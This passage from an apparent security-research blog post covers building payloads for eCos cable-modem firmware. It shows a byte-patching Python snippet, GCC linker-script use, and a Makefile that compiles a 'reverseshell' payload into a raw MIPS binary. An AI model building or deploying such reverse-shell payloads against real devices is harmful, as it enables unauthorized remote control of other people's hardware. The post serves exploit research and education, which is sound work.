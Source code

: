     new_instructions += b"\x00\x60\x00\x08"

    with open(sys.argv[1], 'rb') as f:
        content = f.read()
        content = content.replace(old_instructions, new_instructions)
        with open('{}.fixed'.format(sys.argv[1]), 'wb') as f2:
            f2.write(content)
{% endhighlight %}


### Method 2: GCC Linker

> If you looked at [@stdw](https://github.com/stdw/) [code](https://github.com/stdw/cm-sdr/) to turn a Cable Modem into a cheap SDR,
you probably know what the build process will look like. Interestingly, I had built similar capabilities but turns out their code
is cleaner so I borrowed from them. Go check out their repo !

Instead of manually typing function addresses in the source code, redefining the function prototypes, and setting functions pointers, we can
simply rely on GCC `-T` option that allows us to provide our own linker script.

{% highlight asm %}
-T script Use script as the linker script.  This option is supported by most systems using the GNU linker.  On some targets, such as bare-board targets without an operating system, the -T option may be required when linking to avoid references to undefined symbols.
{% endhighlight %}

If you want to follow along, all the content below has been made public on our [Github](https://github.com/ecos-wtf/recos).

#### Makefile

We can combine that with a Makefile to make things even easier:

{% highlight make %}
PLATFORM=CG3700
TCPREFIX=gnutools/mipsisa32-elf/bin/mipsisa32-elf-
CC=$(TCPREFIX)gcc
OBJCOPY=$(TCPREFIX)objcopy
LDSCRIPT=$(PLATFORM)/payload.ld
CFLAGS=-march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T $(LDSCRIPT)

default: reverseshell.bin

reverseshell.elf:
	$(CC) reverseshell.c -o $@ $(CFLAGS)

reverseshell.bin: reverseshell.elf
	$(OBJCOPY) -O binary -j .start -j .text -j .data -j .rodata $< $@
{% endhighlight %}

Setup the right application binary interface options:

- **march=mips32**
- **mabi=eabi**
- **msoft-float**
